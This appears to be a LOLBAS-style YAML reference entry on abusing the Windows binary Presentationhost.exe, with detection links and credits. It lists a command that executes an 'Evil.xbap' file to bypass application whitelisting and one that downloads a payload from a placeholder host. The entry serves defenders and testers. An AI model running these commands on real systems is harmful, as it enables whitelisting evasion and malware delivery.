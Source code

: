 ```yaml
---
Name: Presentationhost.exe
Description: File is used for executing Browser applications
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: Presentationhost.exe C:\temp\Evil.xbap
    Description: Executes the target XAML Browser Application (XBAP) file
    Usecase: Execute code within xbap files
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: Presentationhost.exe https://example.com/payload
    Description: It will download a remote payload and place it in the cache folder (for example - %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE)
    Usecase: Downloads payload from remote server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\Presentationhost.exe
  - Path: C:\Windows\SysWOW64\Presentationhost.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/a38c0218765a89f5d18eadd49639c72a5d25d944/rules/windows/process_creation/win_susp_presentationhost_execution.yml
  - IOC: Execution of .xbap files may not be common on production workstations
Resources:
  - Link: https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf
  - Link: https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

